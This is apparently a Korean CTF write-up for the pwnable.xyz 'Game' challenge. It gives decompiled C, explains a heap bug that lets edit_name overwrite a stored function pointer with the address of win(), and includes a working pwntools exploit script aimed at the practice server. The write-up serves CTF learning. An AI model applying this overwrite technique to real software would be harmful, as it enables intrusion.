 ```yaml
---
title: "[pwnable.xyz]Game"
date: 2020-1-26
ctf: Pwnable.xyz
layout: post
published : false
---
```


메인이다. 메뉴는 총 4개가 있다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi
  signed int v4; // eax

  setup();
  v3 = "Shell we play a game?";
  puts("Shell we play a game?");
  init_game();
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(v3, argv);
      v3 = "> ";
      printf("> ");
      v4 = read_int32();
      if ( v4 != 1 )
        break;
      (*(cur + 3))();
    }
    if ( v4 > 1 )
    {
      if ( v4 == 2 )
      {
        save_game();
      }
      else
      {
        if ( v4 != 3 )
          goto LABEL_13;
        edit_name();
      }
    }
    else
    {
      if ( !v4 )
        exit(1);
LABEL_13:
      v3 = "Invalid";
      puts("Invalid");
    }
  }
}
```

우선 `init_game` 함수를 보면 *cur에 name입력받은 16바이트 저장한다. 그리고 *(cur+3)에 play_game함수를 저장한다.

```c
char *init_game()
{
  char *result; // rax

  saves[0] = malloc(32uLL);
  cur = find_last_save();
  printf("Name: ");
  read(0, cur, 16uLL);
  result = cur;
  *(cur + 3) = play_game;
  return result;
}
```

이 함수는 별거 없다.

```c
unsigned __int64 play_game()
{
  __int16 v0; // dx
  __int16 v1; // dx
  __int16 v2; // dx
  __int16 v3; // dx
  int fd; // [rsp+Ch] [rbp-124h]
  int v6; // [rsp+10h] [rbp-120h]
  unsigned int buf; // [rsp+14h] [rbp-11Ch]
  unsigned int v8; // [rsp+18h] [rbp-118h]
  unsigned __int8 v9; // [rsp+1Ch] [rbp-114h]
  char s; // [rsp+20h] [rbp-110h]
  unsigned __int64 v11; // [rsp+128h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  read(fd, &buf, 0xCuLL);
  close(fd);
  v9 &= 3u;
  memset(&s, 0, 0x100uLL);
  snprintf(&s, 0x100uLL, "%u %c %u = ", buf, ops[v9], v8);
  printf("%s", &s);
  v6 = read_int32();
  if ( v9 == 1 )
  {
    if ( buf - v8 == v6 )
      v1 = *(cur + 8) + 1;
    else
      v1 = *(cur + 8) - 1;
    *(cur + 8) = v1;
  }
  else if ( v9 > 1 )
  {
    if ( v9 == 2 )
    {
      if ( buf / v8 == v6 )
        v2 = *(cur + 8) + 1;
      else
        v2 = *(cur + 8) - 1;
      *(cur + 8) = v2;
    }
    else if ( v9 == 3 )
    {
      if ( v8 * buf == v6 )
        v3 = *(cur + 8) + 1;
      else
        v3 = *(cur + 8) - 1;
      *(cur + 8) = v3;
    }
  }
  else if ( !v9 )
  {
    if ( v8 + buf == v6 )
      v0 = *(cur + 8) + 1;
    else
      v0 = *(cur + 8) - 1;
    *(cur + 8) = v0;
  }
  return __readfsqword(0x28u) ^ v11;
}
```

`save_game ` 함수는 청크를 복사해준다.

```c
int save_game()
{
  _QWORD *v0; // rcx
  __int64 v1; // rdx
  __int64 v2; // rdx
  __int64 v3; // rax
  signed int i; // [rsp+Ch] [rbp-4h]

  for ( i = 1; i <= 4; ++i )
  {
    if ( !saves[i] )
    {
      saves[i] = malloc(32uLL);
      v0 = saves[i];
      v1 = *(cur + 1);
      *v0 = *cur;
      v0[1] = v1;
      *(saves[i] + 16) = *(cur + 8);
      *(saves[i] + 24) = play_game;
      v2 = i;
      v3 = saves[v2];
      cur = saves[v2];
      return v3;
    }
  }
  LODWORD(v3) = puts("Not enough space.");
  return v3;
}
```

edit_name() 함수에서는 name만큼 값을 쓸 수 있다.

```c
ssize_t edit_name()
{
  size_t v0; // rax

  v0 = strlen(cur);
  return read(0, cur, v0);
}
```

구조체는 name, score, fucntion *ptr 이런식으로 되있을 거다.

익스할 때 처음에 일단 name에서 16개를 꽉 채워서 보내는 이유는 size와 합쳐져서 널 바이트를 없애 3번 메뉴에서 더 많이 받을 수 있다.

우선 1번 메뉴 play를 해서 지면 score이 -1이 된걸 볼 수 있는데 디버깅해보면 값은 0xffff가 들어간다. 이제 save로 복사하면 새로운 청크가 생기면서 값들이 복사된다. 여기서0xffffffffffffffff가 들어간다. 

그래서 name(16) + 0xffffffffffffffff(8) + 0x0400aca(3) 이렇게 된다. 그래서 우리는 총 27바이트를 입력할 수 있다. 이제 0x0400aca를 덮을 수 있다. 3바이트를 덮을 수 있으니까 0x4009d6주소인 win으로 덮으면 1번 메뉴 실행할 때마다 win함수가 실행될거다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30009)

p.sendafter(':','A'*16) # name
p.sendlineafter('>','1') # play
p.sendafter('=','1') # anything
p.sendlineafter('>','2') # save
p.sendlineafter('>','3') # read(0,cur,sizeof(cur))
payload = 'A'*24 + p16(0x9d6) # size -> 2byte & 0x4009d6 -> win();
p.send(payload)

p.interactive()
```

